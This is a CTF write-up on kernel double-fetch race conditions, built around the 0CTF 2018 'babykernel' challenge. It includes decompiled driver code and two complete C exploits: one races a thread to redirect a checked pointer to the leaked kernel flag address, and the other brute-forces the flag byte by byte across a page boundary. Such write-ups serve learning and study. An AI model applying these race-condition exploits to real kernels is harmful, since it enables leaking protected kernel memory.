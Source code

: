 ```yaml
---
title: "Introduction of Kernel Exploitations: Double Fetch"
date: 2022-05-19 17:52:21
tags: 
layout: default
---
```


# 0x00 Prologue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 Double Fetch

![Double Fetch from CTF-Wiki](/Figures/kernel/double-fetch.png)

Double fetch is a kind of race condition. Most situation the kernel would get the data from user space by `copy_from_user`. But while dealing with complex data structure, the kernel read the data from user space by a pointer. So there is a race condition:
```c
kernel  : get the data and perform some check
users   : change the data
kernel  : perfrom options to the data
```

# 0x02 Double Fetch Attack

[attachment][2]
According to its start script, it's a multi-process challenge. There is only one function in the device:
```c
__int64 __fastcall domain(__int64 a1, int a2, node *a3)
{
  int i; // [rsp+1Ch] [rbp-54h]

  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    return 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok((__int64)a3, 16LL)
         && !_chk_range_not_ok((__int64)a3->ptr, a3->len)
         && a3->len == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( a3->ptr[i] != flag[i] )
        return 22LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    return 0LL;
  }
  else
  {
    return 14LL;
  }
}
```
The function could leak the address of the flag. And We are asked to give a struct which includes a pointer and a inter which represent its length. Before comparing the given string and the true flag, the program checks if the given address is in current task's memspace, which means we can't provide the address of real flag to bypass the comparation. However, we can use `double fetch` bypass the check and comparation because there is no syncronization to avoid race condition.

The basic idea is 
- Brute force the length of the real flag
- Creat a thread to send valid payload
- The main thread keep modify the ptr to point to the real flag
- Stop when retruning 0

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int flag = 0;
size_t addr = 0;
void atk_func(void* p)
{   
    struct node *tmp = p;
    while(!flag)
        tmp->ptr = addr;    
}

int main()
{
    f = open("/dev/baby",2);
    ioctl(f,0x6666,0);
    system("dmesg > ./log");
    int log = open("./log",0);
    lseek(log,-58,SEEK_END);
    char buf[0x1000]={0};
    read(log,buf,0x10);
    puts(buf);
    addr = 0;
    
    for(int i =0; i<0x10;i++)
    {
        uint8_t tmp = buf[i]-'0';
        if(tmp>9)
        {
            tmp= buf[i]- 0x61+0xa;
        }
        addr+= tmp;
        if(i==0xf)
            break;
        addr = addr<<4;  
    }
    printf("%p\n",addr);
    para.ptr = buf;
    para.len = 33;
    pthread_t tid;
    pthread_create(&tid,NULL,atk_func,&para);
    int res =0;
    for(int i=0;i<0x10000;i++){
        res = ioctl(f,0x1337,&para);
        para.ptr = buf;
        if(!res)
            break;
    }
    flag=1;
    pthread_join(tid,NULL);
    system("dmesg | grep flag{");
}
```
# 0x03 SileChannel Attack
Also, because the device would compare the string byte by byte so that we can place our payload at the end of page to burte force the password byte by byte. 

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int main()
{
    f = open("/dev/baby",2);
    struct node n132;
    n132.len = 33;
    char * mem = mmap(0x132000,0x1000,7,0x21,0,0);

    size_t res = 0;
    char *target = "flag{T";
    memcpy(mem+0xfff-strlen(target),target,strlen(target));
    n132.ptr = mem+0xfff-strlen(target);
    for(int i=0;i<0x100;i++){
        mem[0xfff] = i;
        printf("%c\n",i);
        res = ioctl(f,0x1337,&n132);
    }
    
}
```
# 0x04 Summary

These two tricks could be used on kernel string comparation challenges.

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/0CTF_2018/babykernel
